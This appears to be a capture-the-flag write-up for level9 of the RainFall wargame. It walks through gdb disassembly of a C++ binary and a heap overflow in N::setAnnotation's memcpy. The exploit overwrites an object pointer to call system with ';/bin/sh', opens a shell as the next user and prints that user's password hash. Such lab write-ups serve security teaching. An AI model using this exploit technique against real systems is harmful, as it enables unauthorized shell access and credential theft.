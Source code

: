 # Level9

```bash
(gdb) disas main
Dump of assembler code for function main:
   0x080485f4 <+0>:	push   ebp
   0x080485f5 <+1>:	mov    ebp,esp
   0x080485f7 <+3>:	push   ebx
   0x080485f8 <+4>:	and    esp,0xfffffff0
   0x080485fb <+7>:	sub    esp,0x20
   0x080485fe <+10>:	cmp    DWORD PTR [ebp+0x8],0x1    // compares argc with 1
   0x08048602 <+14>:	jg     0x8048610 <main+28>        // if argc > 1 continues the program
   0x08048604 <+16>:	mov    DWORD PTR [esp],0x1        // exit code set to 1
   0x0804860b <+23>:	call   0x80484f0 <_exit@plt>      // exits for argc <= 1
   0x08048610 <+28>:	mov    DWORD PTR [esp],0x6c       // place 108 on top of stack
   0x08048617 <+35>:	call   0x8048530 <_Znwj@plt>      // operator new
   0x0804861c <+40>:	mov    ebx,eax
   0x0804861e <+42>:	mov    DWORD PTR [esp+0x4],0x5
   0x08048626 <+50>:	mov    DWORD PTR [esp],ebx
   0x08048629 <+53>:	call   0x80486f6 <_ZN1NC2Ei>      // N::N(5)
   0x0804862e <+58>:	mov    DWORD PTR [esp+0x1c],ebx
   0x08048632 <+62>:	mov    DWORD PTR [esp],0x6c
   0x08048639 <+69>:	call   0x8048530 <_Znwj@plt>
   0x0804863e <+74>:	mov    ebx,eax
   0x08048640 <+76>:	mov    DWORD PTR [esp+0x4],0x6
   0x08048648 <+84>:	mov    DWORD PTR [esp],ebx
   0x0804864b <+87>:	call   0x80486f6 <_ZN1NC2Ei>
   0x08048650 <+92>:	mov    DWORD PTR [esp+0x18],ebx
   0x08048654 <+96>:	mov    eax,DWORD PTR [esp+0x1c]
   0x08048658 <+100>:	mov    DWORD PTR [esp+0x14],eax
   0x0804865c <+104>:	mov    eax,DWORD PTR [esp+0x18]
   0x08048660 <+108>:	mov    DWORD PTR [esp+0x10],eax
   0x08048664 <+112>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048667 <+115>:	add    eax,0x4
   0x0804866a <+118>:	mov    eax,DWORD PTR [eax]
   0x0804866c <+120>:	mov    DWORD PTR [esp+0x4],eax
   0x08048670 <+124>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048674 <+128>:	mov    DWORD PTR [esp],eax
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048680 <+140>:	mov    eax,DWORD PTR [eax]
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax]
   0x08048684 <+144>:	mov    eax,DWORD PTR [esp+0x14]
   0x08048688 <+148>:	mov    DWORD PTR [esp+0x4],eax
   0x0804868c <+152>:	mov    eax,DWORD PTR [esp+0x10]
   0x08048690 <+156>:	mov    DWORD PTR [esp],eax
   0x08048693 <+159>:	call   edx
   0x08048695 <+161>:	mov    ebx,DWORD PTR [ebp-0x4]
   0x08048698 <+164>:	leave  
   0x08048699 <+165>:	ret    
End of assembler dump.
```

When entering the function `<_ZN1NC2Ei>` with the gdb instruction `si` , the debugger displayes :

```bash
(gdb) si
0x080486f6 in N::N(int) ()
```

Which means there is a class N with methods.

```bash
(gdb) disas _ZN1NC2Ei
Dump of assembler code for function _ZN1NC2Ei:
   0x080486f6 <+0>:	push   ebp
   0x080486f7 <+1>:	mov    ebp,esp
   0x080486f9 <+3>:	mov    eax,DWORD PTR [ebp+0x8]
   0x080486fc <+6>:	mov    DWORD PTR [eax],0x8048848
   0x08048702 <+12>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048705 <+15>:	mov    edx,DWORD PTR [ebp+0xc]
   0x08048708 <+18>:	mov    DWORD PTR [eax+0x68],edx
   0x0804870b <+21>:	pop    ebp
   0x0804870c <+22>:	ret    
End of assembler dump.
```

```bash
(gdb) disas _ZN1N13setAnnotationEPc
Dump of assembler code for function _ZN1N13setAnnotationEPc:
   0x0804870e <+0>:	push   ebp
   0x0804870f <+1>:	mov    ebp,esp
   0x08048711 <+3>:	sub    esp,0x18
   0x08048714 <+6>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048717 <+9>:	mov    DWORD PTR [esp],eax
   0x0804871a <+12>:	call   0x8048520 <strlen@plt>
   0x0804871f <+17>:	mov    edx,DWORD PTR [ebp+0x8]
   0x08048722 <+20>:	add    edx,0x4
   0x08048725 <+23>:	mov    DWORD PTR [esp+0x8],eax
   0x08048729 <+27>:	mov    eax,DWORD PTR [ebp+0xc]
   0x0804872c <+30>:	mov    DWORD PTR [esp+0x4],eax
   0x08048730 <+34>:	mov    DWORD PTR [esp],edx
   0x08048733 <+37>:	call   0x8048510 <memcpy@plt>
   0x08048738 <+42>:	leave
   0x08048739 <+43>:	ret
End of assembler dump.
```

```bash
(gdb) b *0x08048677
Breakpoint 1 at 0x8048677
(gdb) r 3
Starting program: /home/user/level9/level9 3

Breakpoint 1, 0x08048677 in main ()
(gdb) si
0x0804870e in N::setAnnotation(char*) ()
```

The function `memcpy` is called inside of `setAnnotation`  and new buffer is then placed in `edx` and called in main.

```bash
   // main
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   [...]
   0x08048682 <+142>:	mov    edx,DWORD PTR [eax] // dest buffer
   [...]
   0x08048693 <+159>:	call   edx
```

We will try to write a shellcode that executes `system("/bin/sh")` .

```bash
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7d86060 <system>
```

A size of 108 was allocated which indicates us the position for our argument.

So the shellcode will look like :

1. `system` address
2. random characters until the end of 108 size buffer
3. return address of memcpy (the address of dest buffer)
4. parameter

```bash
(gdb) b *0x08048733   // the function call setAnnotation
Breakpoint 1 at 0x8048733
(gdb) r 4
Starting program: /home/user/level9/level9 4

Breakpoint 1, 0x08048733 in N::setAnnotation(char*) ()
(gdb) x/a $esp
0xbffff600:	0x804a00c
```

In hex, `"/bin/sh"` → `"\x2f\x62\x69\x6e\x2f\x73\x68"`

```bash
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + "\x2f\x62\x69\x6e\x2f\x73\x68")')
sh: 1: 
       /bin/sh: Permission denied
```

But we can note that :

In summary, the semicolon ensures proper command separation and execution. Without it, the shell might misinterpret the payload, leading to errors like "Permission denied."

Instead we can try to use `";\x2f\x62\x69\x6e\x2f\x73\x68"`  for "/bin/sh"

```bash
level9@RainFall:~$ ./level9 $(python -c 'print("\x60\x60\xd8\xb7" + "A" * 104 + "\x0c\xa0\x04\x08" + ";\x2f\x62\x69\x6e\x2f\x73\x68")')
sh: 1: 
       : not found
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```